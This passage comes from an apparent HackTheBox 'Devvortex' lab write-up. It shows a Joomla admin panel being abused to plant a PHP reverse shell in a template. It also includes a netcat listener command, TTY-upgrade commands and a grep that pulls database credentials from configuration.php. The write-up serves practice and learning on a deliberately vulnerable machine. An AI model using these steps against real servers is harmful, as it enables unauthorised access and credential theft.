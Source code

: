 Now, we have two users, and one of them with its password.
So we will try to log in as administrators in `http://dev.devvortex.htb/administrator`

![dev.devvortex login](htb-devdevvortex-login.png)
*dev.devortex login*

And... We are in!

### www-data

Now, we need to perform a lateral movement to gain shell as the user `www-data`.
In order to do this, we will exploit the joomla template system to gain a reverse shell.

We browse to System > Site Templates > Cassiopeia Details and Files and we inject a php shell in the `error.php` (because is writable) template:

![dev.devvortex php shell](htb-devdevvortex-php-shell.png)
*dev.devortex php shell*

We save the change, and we start listening in our host with `netcat`:

`nc -lvnp 1234`

And, now, we cause a browsing error, navigating to an unexisting url, e.g.: `http://dev.devvortex.htb/asdf`

Once we get shell, the first thing it's upgrating the tty, as always:

```
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

```
www-data@devvortex:~/dev.devvortex.htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

If we look in the `configuration.php` file we found the database and the credentials:

```
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php | grep -E 'user|password|\$db' 
        public $dbtype = 'mysqli';
        public $user = 'lewis';
        public $password = 'f4k3l0g4np455';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
        public $dbsslcert = '';
        public $dbsslca = '';
        public $dbsslcipher = '';
        public $smtpuser = ''
```
